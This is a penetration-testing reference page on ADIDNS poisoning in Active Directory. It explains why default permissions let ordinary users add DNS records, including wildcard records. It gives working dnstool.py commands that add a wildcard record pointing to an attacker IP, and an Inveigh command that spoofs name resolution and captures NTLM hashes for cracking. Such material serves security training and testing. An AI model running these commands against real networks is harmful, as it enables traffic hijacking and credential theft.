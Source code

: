 # 🟡 ADIDNS Poisoning

## <mark style="color:red;">ADIDNS</mark>

In order to function properly, Active Directory services need DNS. In that matter, Active Directory Domain Services (AD-DS) offer an integrated storage and replication service for DNS records. This is called Active Directory Integrated DNS (ADIDNS).

Just like any other domain name resolution spoofing attack, if an attacker is able to resolve requests with an arbitrary IP address, traffic gets hijacked, the attacker becomes a man-in-the-middle and further attacks can be operated.

Since ADIDNS zone DACL (Discretionary Access Control List) enables regular users to create child objects by default, attackers can leverage that and hijack traffic.

ADIDNS zones can be remotely edited

* with **dynamic updates** (a DNS specific protocol used by machine accounts to add and update their own DNS records). Users can create records if they don't exist, and they will have full control over it. By default, users that don't own a record will not be able to edit it, or to add another one with the same name, even if the type is different (A, AAAA, CNAME, MX, and so on).
* by **using LDAP** to create dnsNode objects. While dynamic updates can't be used to inject a wildcard DNS record, LDAP can be (only if the record doesn't already exist, which is the case by default).

### <mark style="color:orange;">Wildcard records</mark> <a href="#wildcard-records" id="wildcard-records"></a>

> Wildcard records allow DNS to function in a very similar fashion to LLMNR/NBNS spoofing. Once you create a wildcard record, the DNS server will use the record to answer name requests that do not explicitly match records contained in the zone. ([source](https://blog.netspi.com/exploiting-adidns/#wildcard))

​💡 In some scenarios, adding a wildcard record the the proper ADIDNS zone won't work. This is usually due to the **WINS forward lookup** being enabled on that zone. WINS forward lookup makes the DNS server send a NBT-NS Query Request to a predefined WINS server when it receives an address record query for which it doesn't know the answer. In short, it serves the same purpose as the wildcard record. This feature needs to be disabled for the wildcard record to be used.

## <mark style="color:red;">ADIDNS Poisoning</mark>

[dnstool](https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py) can be used to add, modify, query, remove, resurrect and ldapdelete records in ADIDNS:

```
# query a node
dnstool.py -u 'DOMAIN\user' -p 'password' --record '*' --action query $DomainController
​
# add a node and attach a record
dnstool.py -u 'DOMAIN\user' -p 'password' --record '*' --action add --data $AttackerIP $DomainController
```

{% hint style="info" %}
When adding records has no impact on name resolution or when the tools throw errors like `NoSuchObject`, it could be that the DNS zones in use are stored in the legacy `System` partition, or the `ForestDnsZones`, instead of the `DomainDnsZones` one.

This can be set with the `--legacy` or `--forest` option on dnstool.py, or with the `-Partition` argument for Powermad.
{% endhint %}

## <mark style="color:red;">Dynamic spoofing</mark>

Using [Inveigh](https://github.com/Kevin-Robertson/Inveigh) (Powershell), the following command will:

* operate LLMNR, NBT-NS and mDNS spoofing​
* operate ADIDNS spoofing
  * `combo` looks at LLMNR/NBNS requests and adds a record to DNS if the same request is received from multiple systems
  * `ns` injects an NS record and if needed, a target record. This is primarily for the GQBL bypass for wpad.
  * `wildcard` injects a wildcard record
* set the threshold at which the combo ADIDNS spoofing mode will take effect
* enable showing NTLM challenge/response captures from machine accounts
* set the Challenge to `1122334455667788` (to crack NTLM hashes with [crack.sh](https://crack.sh))

```
Invoke-Inveigh -ConsoleOutput Y -ADIDNS combo,ns,wildcard -ADIDNSThreshold 3 -LLMNR Y -NBNS Y -mDNS Y -Challenge 1122334455667788 -MachineAccounts Y
```

​[This wiki page](https://github.com/Kevin-Robertson/Inveigh/wiki/Basics) can be really useful to help master Inveigh and its support functions

* `Clear-Inveigh` to clear Inveigh's hashtable
* `Get-Inveigh` to get data from Inveigh's hashtable
* `Stop-Inveigh` to stop all running modules
* `Watch-Inveigh` to enable real time console output
